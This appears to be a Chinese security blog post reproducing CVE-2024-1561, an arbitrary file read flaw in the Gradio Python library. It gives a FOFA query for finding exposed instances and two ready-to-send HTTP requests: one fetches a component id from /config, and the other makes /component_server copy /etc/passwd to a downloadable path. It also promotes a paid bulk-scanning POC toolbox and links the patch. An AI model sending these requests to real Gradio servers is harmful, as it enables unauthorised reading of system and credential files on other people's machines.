 #  Gradio component_server存在任意文件读取漏洞复现(CVE-2024-1561)CVE-2024-1561   
南风徐来  南风漏洞复现文库   2024-05-20 23:07  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Gradio 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Gradio是一个开源 Python 库  
## 2.漏洞描述  
  
Gradio是一个开源 Python 库，是通过友好的 Web 界面演示机器学习模型的方法。Gradio 存在安全漏洞，该漏洞源于端点不正确地允许调用类上的任何方法，允许未经授权的本地文件读取访问，可能导致敏感信息泄露。  
  
CVE编号:CVE-2024-1561  
  
CNNVD编号:CNNVD-202404-2071  
  
CNVD编号:  
## 3.影响版本  
  
Gradio开源 Python 库  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZFa9r8NO4YgV3uawRFO1VjZI3SJrr6icyaD2Guwch7qiad9p5VWzuXfaZqsP4mpD1gMlGkAdFYs9GA/640?wx_fmt=jpeg&from=appmsg "null")  
  
Gradio component_server存在任意文件读取漏洞复现(CVE-2024-1561)  
## 4.fofa查询语句  
  
body="**gradio_mode**"  
## 5.漏洞复现  
  
先获取components后面的id值 漏洞数据包：  
```
GET /config HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xxx.xxx.xxx.xx
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZFa9r8NO4YgV3uawRFO1VjhIlsqUuLK7CzpV1u1iatavTliaxhC1gMHUkz3TaW8nmBF4BZ5PGV3d4Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
使用上面获取的id值发包，会返回一个文件  
```
POST /component_server HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.3 Safari/605.1.1514.1.3 Ddg/14.1.3
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xxx.xxx.xxx.xxx
Content-Type: application/json
Content-Length: 105

{"component_id": "上面获取的id","data": "/etc/passwd","fn_name": "move_resource_to_block_cache","session_hash": "a"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZFa9r8NO4YgV3uawRFO1VjrtWacYBenicsOxyXAp8Qw72AKYuQmXicyzuicZRGEdI9KxN5oTT2XuWZw/640?wx_fmt=jpeg&from=appmsg "null")  
  
读取该文件，实现任意文件读取http://xxx.xxx.xxx.xxx/file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZFa9r8NO4YgV3uawRFO1VjJ6RHIyjtqodsh3lxAoSk2ibx9TVEw7iaSjE3R4Zc8sWa9QEic3VcEMLlA/640?wx_fmt=jpeg&from=appmsg "")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZFa9r8NO4YgV3uawRFO1VjCcB8m7evj9gyPickoyAshSFe2oScMT9nxs3X24oSKHyAVWqCHpBgeeQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZFa9r8NO4YgV3uawRFO1Vj47M2IbYwialaajM3O3ZjXMIvZsnDF6K7dGgBBEKwU65I1r7v8Q8DmHg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZFa9r8NO4YgV3uawRFO1VjSHEdhPErxQwlIm7z6Upkx36ia9khNibxhcMykJkMAl1vePgYhk5Nx4Ow/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZFa9r8NO4YgV3uawRFO1VjDbaM1d9huArLbiblSu95aNzLmgg0JJZNETVlSZxBUQvUl4TkywIGAJQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZFa9r8NO4YgV3uawRFO1Vjiam3bQsJOQgO7OpxsNfpmVyuVCd8MTuNv8VtEmehgPzUO2q2NWD6kTA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁：https://github.com/gradio-app/gradio/commit/24a583688046867ca8b8b02959c441818bdb34a2  
## 8.往期回顾  
  
[瑞友天翼应用虚拟化系统/Admin/appsave存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486459&idx=1&sn=fe8a04a9ae4bf9d2651c35021ea7715c&chksm=974b86fca03c0feaa913f44577b04bcdd92c5d9f49fab6496e2498759ea3f1df9689c0c6c25a&scene=21#wechat_redirect)  
  
  
  
  
